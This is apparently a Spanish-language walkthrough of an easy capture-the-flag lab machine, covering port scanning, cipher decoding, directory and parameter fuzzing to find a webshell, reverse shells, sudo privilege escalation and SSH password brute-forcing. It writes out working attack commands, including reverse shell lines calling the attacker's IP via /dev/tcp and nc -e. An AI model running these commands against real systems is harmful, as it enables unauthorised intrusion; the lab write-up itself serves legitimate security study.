





En esta maquina facil nos encontramos con enumeracion , fuzzing , fuerza bruta , reverse shell
Una vez encontrada la maquina realizamos un scan de puertos con nmap

Como vemos en este caso solo tenemos el puerto 22 y el 80 asi que primero vamos a ver la web y su codigo fuente.

En la web nos encontramos con una imagen con un codigo extraño y su nombre indica que lo decodifiquemos y mas abajo en un comentario nos indica que ese codigo usa un formato concreto.

Nos vamos a la siguiente web https://www.dcode.fr/tic-tac-toe-cipher y buscamos la codificacion correcta para nuestro codigo para poder obtener algo legible.

¿Cuál es la diferencia entre codificar y cifrar? Los códigos por lo general operan sobre la semántica, significados, mientras que los cifrados operan sobre la sintaxis, símbolos. Un código se almacena como un mapeo en un libro de códigos, mientras que los cifrados transforman símbolos individuales de acuerdo con un algoritmo.
Una vez localizado y decodeado lo añadimos a /etc/hosts vamos a la web de nuevo a ver que hay.


Como vemos no hay nada util asi que toca hacer fuzzing contra la ruta añadida en etc/hosts para buscar directorios y archivos ocultos.
gobuster -q dir -w /usr/share/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml -u http://sys.hidden.hmv --exclude-length 3690

Como vemos nos muestra tres directorios ocultos dos de ellos son para distraernos y uno de ellos nos devuelve una web en blanco.
Vamos a hacer fuzzing de nuevo contra ese otro directorio para ver si esconde algo mas.
gobuster -q dir -w /usr/share/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml -u http://sys.hidden.hmv/weapon --exclude-length 3690

Nos encuentra un archivo con nombre loot.php al que tenemos acceso pero nos devuelve una web en blanco , me hace pensar que hay una webshell , pero nos faltan datos para hacer uso de ella si es que existe .
Esta vez neceitamos encontrar la carga que falta para poder ejecutar comandos y vamos a hacer uso de otro fuzzer en este caso wfuzz para ver si encuentra la carga util que nos faltaria.
Las webshell siempre tienen este fomato: htttp:direccion/archivo.php?loquesea=comando Al menos por lo que he visto hasta la fecha pero imagino que pueden crearse con otro lenguaje.
wfuzz -c -w /usr/share/dirb/wordlists/big.txt -u http://sys.hidden.hmv/weapon/loot.php\?FUZZ\=ls --hw 0


Como vemos en la imagen y despues de varias pruebas con otros fuzzers encontro la palabrita que nos da paso a la ejecucion de comandos remota , es momento de mandarnos una reverseshell.
Para ello podemos buscar en internet hay varias paginas que te la crean yo uso la siguiente https://www.revshells.com/.
Lo primero es poner nuestra maquina a la escucha:
nc -lvpn 9001
Despues en la webshell ejecutamos:
sh -i >& /dev/tcp/192.168.0.112/9001 0>&1
Este intento no me conecto ni encodeando la url acto seguido hago lo mismo pero llamando a nc directamente.
nc 20192.168.0.112 9001 -e sh
Con este segundo metodo tampoco me conectaba como esperaba pueden ver el error en la imagen de abajo al igual que la conexion exitosa cuando cambie el sh por un /bin/bash quedando el comando de la siguiente manera.
nc 20192.168.0.112 9001 -e /bin/bash

Spanw de shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
Aqui podemos ver el fichero que creo para verificar que la carga util era la palabra hack que por lo general usan cmd , exec , etc….

Ahora como siempre lo primero sera un sudo -l o permisos suid con find para algun binario o script personal.

Al hacer un ls sobre el home vemos que hay dos usuario toreto y atenea y el usuario toreto puede ejcutar perl con permisos sudo . Vamos a gtofbins para ver como se hace y poder acceder al sistema de ficheros de toreto conservando sus privilegios.
Recordar que sois www-data hay que indicarle a sudo con el usuario que quereis ejecutar sudo.
sudo -u toreto perl -e 'exec "/bin/bash" ;'

El usuario toreto no tiene nada interesante revisamos el user atenea y encontramos una carpeta oculta con un diccionario de claves , debemos descargarlo y lanzar cualquier software que permita ataque por diccionario. Para ello levanto un servicio web con python en el directorio
python3 -m http.server
Descargamos el diccionario y lanzamos en mi caso ncrack
ncrack -p 22 --user atenea -P atenea.txt 192.168.0.101

Nos logueamos por ssh con el user y la pass y empezmos la escala final como antes con sudo -l.


Consultamos gtofbins para ver como se hace la escala con socat.
Para variar no olviden buscar las flags
Muchas gracias por leer.